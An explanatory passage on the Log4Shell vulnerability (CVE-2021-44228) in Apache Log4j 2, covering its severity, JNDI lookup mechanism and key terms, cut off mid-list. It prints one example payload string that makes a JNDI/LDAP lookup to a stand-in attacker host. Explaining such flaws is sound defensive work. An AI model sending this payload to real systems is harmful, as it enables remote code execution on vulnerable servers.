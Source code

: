 
CVE-2021-44228, also known as **Log4Shell**, is one of the most infamous vulnerabilities in recent history. It targets the Apache Log4j 2 library, a popular Java-based logging utility. Here's a detailed breakdown:

---

### **Summary of CVE-2021-44228**

- **Vulnerability**: Remote Code Execution (RCE)
- **Affected Software**: Apache Log4j 2.x <= 2.14.1
- **Severity**: Critical (CVSS score of 10.0)
- **Exploitability**: Very high, can be exploited over a network without authentication.
- **Root Cause**: Improper handling of user-controlled data in logging messages.

---

### **What is this vulnerability saying?**

The Log4j library is used to generate log files. It allows applications to log data in a structured and flexible way. However, a feature called **JNDI (Java Naming and Directory Interface)** is vulnerable. When an attacker sends a specially crafted input to a system that logs user-controlled data, the library can fetch remote code and execute it.

For example:

1. An attacker sends a malicious string like `${jndi:ldap://attacker.com/a}`.
2. Log4j processes this string.
3. The JNDI lookup fetches data from the attacker's server (`attacker.com`) and executes it, allowing the attacker to execute arbitrary code on the server.

---

### **Key Terms Explained**

Here are the key terms and concepts to understand:

1. **Log4j**:
    
    - A Java-based logging library widely used in enterprise applications.
    - Helps developers record information like errors, application activity, or debug data.
2. **JNDI (Java Naming and Directory Interface)**:
    
    - A Java feature for looking up resources like directories or objects (e.g., LDAP).
    - Normally used for legitimate purposes but can fetch malicious code if not secured.
3. **Remote Code Execution (RCE)**:
    
    - A type of vulnerability that allows an attacker to execute arbitrary code on a target system.
    - RCE vulnerabilities are dangerous because they often lead to full system compromise.
4. **CVSS Score**:
    
    - The **Common Vulnerability Scoring System** rates vulnerabilities on a scale of 0-10.
    - This CVE has a score of 10, meaning it's the most severe.
5. **LDAP (Lightweight Directory Access Protocol)**:
    
    - A protocol for accessing directory services. In this context, it’s used as the vector to fetch malicious payloads.
6. **Attack Vector**:
    